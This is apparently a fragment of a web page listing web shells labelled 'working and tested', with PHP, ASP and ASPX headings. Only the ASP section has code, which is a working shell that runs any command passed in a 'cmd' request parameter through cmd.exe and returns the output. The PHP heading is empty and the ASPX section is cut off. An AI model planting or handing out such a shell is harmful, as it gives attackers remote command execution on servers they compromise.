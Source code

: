 # Web Shells (working and tested)
## PHP
## ASP
<pre>
&lt;%
Set rs = CreateObject("WScript.Shell")
'Set cmd = rs.Exec("cmd /c whoami")
Set cmd = rs.Exec("cmd /c " & request("cmd"))
o = cmd.StdOut.Readall()
Response.write(o)
%&gt;
</pre>
## ASPX
...
